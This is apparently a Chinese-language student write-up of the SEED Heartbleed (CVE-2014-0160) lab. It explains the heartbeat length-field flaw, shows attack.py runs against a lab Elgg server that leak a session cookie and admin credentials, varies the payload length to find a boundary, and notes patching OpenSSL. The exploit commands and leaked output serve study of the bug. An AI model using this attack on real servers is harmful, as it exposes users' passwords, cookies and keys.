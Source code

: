 # 实验准备

设置两个 VM: 

- 攻击者机器
  - 修改/etc/hosts 文件将服务器名映射到服务器 VM 的 IP 地址，在/etc/hosts 中搜索`127.0.0.1   www.heartbleedlabelgg.com`，将承载ELGG应用程序的服务器VM的实际IP地址替换掉127.0.0.1
- 受害者服务器

# Heartbleed漏洞分析

OpenSSL 库中的一个漏洞，受影响的 OpenSSL 版本范围从1.0.1到1.0.1 f，在一些新版本的OpenSSL中无法复现

心跳协议是如何工作的。心跳协议由两种消息类型组成: HeartbeatRequest 包和 HeartbeatResponse 包。客户端向服务器发送一个 HeartbeatRequest 数据包。当服务器接收到它时，它会发回 HeartbeatResponse 数据包中接收到的消息的副本。目标是保持连接活跃

心脏出血攻击是基于心跳请求的。这个请求只是向服务器发送一些数据，服务器将把这些数据复制到它的响应数据包中，这样所有的数据都会得到回显

**在正常情况下，假设请求包含3个字节的数据“ ABC”，因此长度字段的值为3。服务器将把数据放在内存中，并从数据的开头复制3个字节到它的响应数据包。在攻击场景中，请求可能包含3个字节的数据，但长度字段可能是1003。当服务器构造它的响应数据包时，它从数据的开始进行复制(即“ ABC”) ，但是它复制的是1003个字节，而不是3个字节。这额外的1000种类型显然不是来自请求数据包; 它们来自服务器的私有内存，并且它们可能包含其他用户的信息、密钥和密码**

# Task 1: Launch the Heartbleed Attack

攻击步骤：

- 访问 https://www.heartbleedlabelgg.com

- 以管理员身份登录：admin ：seedelgg
- 添加boby为friend，并给他发送私人信息

多次运行攻击的回显如下

可以看出泄露了cookie、username、密码等关键信息

```
# ./attack.py www.heartbleedlabelgg.com

defribulator v1.20
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: www.heartbleedlabelgg.com:443, 1 times
Sending Client Hello for TLSv1.0
Analyze the result....
Analyze the result....
Analyze the result....
Analyze the result....
Received Server Hello for TLSv1.0
Analyze the result....

WARNING: www.heartbleedlabelgg.com:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@.AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOABC...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.heartbleedlabelgg.com/profile/boby
Cookie: Elgg=vt3bsst6tb3ov6njhj7kcijn42
Connection: keep-alive
If-None-Match: "1449721729"

..*.......a.3v.O.akf.........b3ov6njhj7kcijn42
Connection: keep-alive

_..@?.
..2....{ d..................=1670072367&username=admin&password=seedlggT.;.8A.K..VY."...."

```

# Task 2: Find the Cause of the Heartbleed Vulnerability

比较良性数据包和攻击者代码发送的恶意数据包的结果，以找出心脏出血漏洞的根本原因

> 当 Heartbeat 请求数据包到来时，服务器将解析数据包以获得有效负载和有效负载长度值(如图1所示)。这里，有效负载只是一个3字节的字符串“ ABC”，有效负载长度值正好是3。服务器程序将盲目地从请求数据包中获取这个长度值。然后，它通过指向存储“ ABC”的内存并将负载长度字节复制到响应负载来构建响应数据包。这样，响应数据包将包含一个3字节的字符串“ ABC”。我们可以启动 HeartBleed 攻击，将有效负载长度字段设置为1003。在构建响应数据包时，服务器将再次盲目地采用这个 Payload 长度值。这一次，服务器程序将指向字符串“ ABC”，并将1003字节作为有效负载从内存复制到响应数据包。除了字符串“ ABC”之外，额外的1000字节被复制到响应数据包中，这些数据包可以是内存中的任何内容，比如机密活动、日志信息、密码等等

通过命令行参数控制有效载荷长度值，该参数默认是0x4000

```
$./attack.py www.heartbleedlabelgg.com -l 0x015B
$./attack.py www.heartbleedlabelgg.com --length 83
```

Question 2.1: As the length variable decreases, what kind of difference can you observe?

回返的信息长度减少

Question 2.2: As the length variable decreases, there is a boundary value for the input length vari-
able. At or below that boundary, the Heartbeat query will receive a response packet without attaching
any extra data (which means the request is benign). Please find that boundary length. You may need
to try many different length values until the web server sends back the reply without extra data. To
help you with this, when the number of returned bytes is smaller than the expected length, the pro-
gram will print "Server processed malformed Heartbeat, but did not return
any extra data."

边界值：22

回显形式1：

> WARNING: www.heartbleedlabelgg.com:443 returned more data than it should - server is vulnerable!

回显形式2：

> Server processed malformed heartbeat, but did not return any extra data.

# Task 3: Countermeasure and Bug Fix

使用`sudo apt-get update`将 OpenSSL 库更新到最新版本，发现之后的攻击无效

Heartbeat request/response 包格式：

 ```c
struct {
    HeartbeatMessageType type; // 1 byte: request or the response
    uint16 payload_length; // 2 byte: the length of the payload
    opaque payload[HeartbeatMessage.payload_length];
    opaque padding[padding_length];
} HeartbeatMessage;
 ```



